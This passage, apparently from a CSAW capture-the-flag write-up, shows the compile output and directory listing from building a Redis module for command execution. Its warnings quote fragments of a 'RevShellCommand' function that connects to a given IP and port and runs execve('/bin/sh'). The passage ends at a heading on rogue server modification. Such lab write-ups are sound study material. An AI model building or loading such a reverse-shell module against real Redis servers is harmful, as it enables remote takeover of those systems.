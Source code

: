 ```sh
   10 | #include <netinet/in.h>
  +++ |+#include <string.h>
   11 | 
module.c:27:25: warning: implicit declaration of function ‘strcat’ [-Wimplicit-function-declaration]
   27 |                         strcat(output, buf);
      |                         ^~~~~~
module.c:27:25: warning: incompatible implicit declaration of built-in function ‘strcat’
module.c:27:25: note: include ‘<string.h>’ or provide a declaration of ‘strcat’
module.c:29:80: warning: incompatible implicit declaration of built-in function ‘strlen’
   29 |                 RedisModuleString *ret = RedisModule_CreateString(ctx, output, strlen(output));
      |                                                                                ^~~~~~
module.c:29:80: note: include ‘<string.h>’ or provide a declaration of ‘strlen’
module.c: In function ‘RevShellCommand’:
module.c:41:14: warning: initialization discards ‘const’ qualifier from pointer target type [-Wdiscarded-qualifiers]
   41 |   char *ip = RedisModule_StringPtrLen(argv[1], &cmd_len);
      |              ^~~~~~~~~~~~~~~~~~~~~~~~
module.c:42:18: warning: initialization discards ‘const’ qualifier from pointer target type [-Wdiscarded-qualifiers]
   42 |   char *port_s = RedisModule_StringPtrLen(argv[2], &cmd_len);
      |                  ^~~~~~~~~~~~~~~~~~~~~~~~
module.c:48:24: warning: implicit declaration of function ‘inet_addr’ [-Wimplicit-function-declaration]
   48 |   sa.sin_addr.s_addr = inet_addr(ip);
      |                        ^~~~~~~~~
module.c:57:3: warning: null argument where non-null required (argument 2) [-Wnonnull]
   57 |   execve("/bin/sh", 0, 0);
      |   ^~~~~~
ld -o module.so module.o -shared -Bsymbolic  -L../rmutil -lrmutil -lc 
make[1]: Leaving directory '/home/zoey/sec/csaw/webrtc/RedisModules-ExecuteCommand/src'
cp ./src/module.so .
╭─zoey@virtual-parrot ~/sec/csaw/webrtc/RedisModules-ExecuteCommand ‹master› 
╰─$ l
total 100K
drwxr-xr-x 1 zoey zoey  164 Sep 13 21:06 .
drwxr-xr-x 1 zoey zoey  418 Sep 13 21:06 ..
-rw-r--r-- 1 zoey zoey 1.9K Sep 13 21:06 .clang-format
drwxr-xr-x 1 zoey zoey  138 Sep 13 21:06 .git
-rw-r--r-- 1 zoey zoey   45 Sep 13 21:06 .gitignore
-rw-r--r-- 1 zoey zoey 1.1K Sep 13 21:06 LICENSE
-rw-r--r-- 1 zoey zoey  472 Sep 13 21:06 Makefile
-rwxr-xr-x 1 zoey zoey  47K Sep 13 21:06 module.so
-rw-r--r-- 1 zoey zoey  598 Sep 13 21:06 README.md
-rw-r--r-- 1 zoey zoey  29K Sep 13 21:06 redismodule.h
drwxr-xr-x 1 zoey zoey  588 Sep 13 21:06 rmutil
drwxr-xr-x 1 zoey zoey   66 Sep 13 21:06 src
```

### Rogue Server Modification
